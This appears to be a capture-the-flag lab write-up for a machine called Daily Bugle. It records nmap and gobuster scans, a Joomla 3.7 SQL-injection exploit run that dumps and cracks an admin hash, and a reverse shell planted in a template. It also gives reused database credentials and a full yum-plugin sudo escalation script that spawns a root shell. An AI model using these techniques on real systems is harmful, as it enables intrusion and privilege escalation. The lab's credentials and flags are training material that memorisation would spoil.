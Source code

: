 Daily_Bugle.doc
-------------------

name : Eviyatar Cohen

Date : 13.10.2022

IP=10.10.184.82
-----------------------------------------

Nmap Results:
===============
nmap -sC -sV 10.10.184.82 
Starting Nmap 7.92 ( https://nmap.org ) at 2022-10-13 03:25 EDT
Nmap scan report for 10.10.184.82
Host is up (0.089s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 68:ed:7b:19:7f:ed:14:e6:18:98:6d:c5:88:30:aa:e9 (RSA)
|   256 5c:d6:82:da:b2:19:e3:37:99:fb:96:82:08:70:ee:9d (ECDSA)
|_  256 d2:a9:75:cf:2f:1e:f5:44:4f:0b:13:c2:0f:d7:37:cc (ED25519)
80/tcp   open  http    Apache httpd 2.4.6 ((CentOS) PHP/5.6.40)
| http-robots.txt: 15 disallowed entries 
| /joomla/administrator/ /administrator/ /bin/ /cache/ 
| /cli/ /components/ /includes/ /installation/ /language/ 
|_/layouts/ /libraries/ /logs/ /modules/ /plugins/ /tmp/
|_http-title: Home
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.6.40
|_http-generator: Joomla! - Open Source Content Management
3306/tcp open  mysql   MariaDB (unauthorized)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 23.43 seconds

------------------------------------------------------------------

robots.txt
=============
/joomla (Not Found)
/administrator (Login Page!!)
/bin (empty)
/cache (empty)
/cli (empty)
/components (empty)
/includes (empty)
/installation (Not Found)
/language (empty)
/layouts (empty)
/libraries (empty)
/logs (Not Found)
/modules (empty)
/plugins (empty)
/tmp (empty)
------------------------------------------------------------------

GoBuster Results:
==================
gobuster dir -u http://10.10.184.82/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-big.txt
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.184.82/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/10/13 04:28:21 Starting gobuster in directory enumeration mode
===============================================================
/README.txt           (Status: 200) [Size: 4494]
/images               (Status: 301) [Size: 235] [--> http://10.10.184.82/images/]
/media                (Status: 301) [Size: 234] [--> http://10.10.184.82/media/] 
/templates            (Status: 301) [Size: 238] [--> http://10.10.184.82/templates/]
/modules              (Status: 301) [Size: 236] [--> http://10.10.184.82/modules/]  
/bin                  (Status: 301) [Size: 232] [--> http://10.10.184.82/bin/]      
/plugins              (Status: 301) [Size: 236] [--> http://10.10.184.82/plugins/]  
/includes             (Status: 301) [Size: 237] [--> http://10.10.184.82/includes/] 
/language             (Status: 301) [Size: 237] [--> http://10.10.184.82/language/] 
/components           (Status: 301) [Size: 239] [--> http://10.10.184.82/components/]
/cache                (Status: 301) [Size: 234] [--> http://10.10.184.82/cache/]     
/libraries            (Status: 301) [Size: 238] [--> http://10.10.184.82/libraries/] 
/tmp                  (Status: 301) [Size: 232] [--> http://10.10.184.82/tmp/]       
/layouts              (Status: 301) [Size: 236] [--> http://10.10.184.82/layouts/]   
/administrator        (Status: 301) [Size: 242] [--> http://10.10.184.82/administrator/]

------------------------------------------------------------------

in README.txt was The Version 3.7 and i found link to exploit this version here:
--------------------------------------------------------------
https://github.com/XiphosResearch/exploits/tree/master/Joomblah

==================================================================

python2 Joombla.py http://10.10.184.82/

 [-] Fetching CSRF token
 [-] Testing SQLi
=============================
  -  Found table: fb9j5_users
==============================
  -  Extracting users from fb9j5_users
==============================================
 [$] Found user ['811', 'Super User', 'jonah', 'jonah@tryhackme.com', '$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm', '', '']
 ============================================================
  -  Extracting sessions from fb9j5_session

Potential User:
===============
jonah:$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm

Trying Crack With John And Got Final Credentials!!:
===================================================
jonah:spiderman123

in the Jommla Blog Portal I Used the index.php file in beez3 to put there a script for reverse shell

inside the system was a configuration.php file in the /var/www/html directory and inside was creds for MariaDB :
----------------------------------------------------------------
public $dbtype = 'mysqli';
public $host = 'localhost';
public $user = 'root';
public $password = 'nv5uz9r3ZEDzVjNu';

==================================================================
Used The Password To login into jjameson User And got in!!
============================================================
jjameson:'nv5uz9r3ZEDzVjNu'

User Flag: 27a260fe3cba712cfdedb1c86d80442e

in sudo -l was yum without Password in sudo so i GTFObins That:
=================================================================

Script I Used To Get Root:
==========================
TF=$(mktemp -d)
cat >$TF/x<<EOF
[main]
plugins=1
pluginpath=$TF
pluginconfpath=$TF
EOF

cat >$TF/y.conf<<EOF
[main]
enabled=1
EOF

cat >$TF/y.py<<EOF
import os
import yum
from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE
requires_api_version='2.1'
def init_hook(conduit):
  os.execl('/bin/sh','/bin/sh')
EOF

------------------------------------------------------------------

Root Flag: eec3d53292b1821868266858d7fa6f79

